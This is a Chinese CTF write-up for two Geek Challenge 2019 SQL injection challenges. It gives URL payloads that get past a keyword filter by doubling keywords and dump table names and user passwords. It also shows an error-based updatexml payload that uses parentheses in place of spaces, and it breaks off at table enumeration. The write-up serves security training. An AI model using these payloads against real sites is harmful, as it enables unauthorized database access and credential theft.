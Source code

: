 #### 考点：union+双写绕过

注意双写绕过，union，select，where，from，information（infoorrmation），password（passwoorrd）

#### 思考

查看有几个字段，发现有3个字段

```
?username=0' ununionion seselectlect 1,2,3%23&password=xx
```

爆库：库名为`geek`

```
?username=0' ununionion seselectlect 1,2,database()%23&password=xx
```

爆表

表名为：`b4bsql`，`geekuser`

```
?username=1' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema = 'geek'%23&password=xx
```

爆字段

首先爆表：`b4bsql`

发现有3列：id,username,password

```
?username=1' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name="b4bsql"%23&password=xx
```

爆值

```
?username=1' ununionion seselectlect 1,2,group_concat(id,'~',username,':',passwoorrd) frofromm b4bsql%23&password=xx
```



### [极客大挑战 2019]HardSQL

#### 考点：报错+括号绕过空格+like绕过=

#### 思考

需要绕过这些关键字去注入，空格用括号代替，等号用like代替

爆库：库名为：geek

```
?username=0'or(updatexml(1,concat('~',database(),'~'),1))%23&password=xx
```

爆表：表名：H4rDsq1
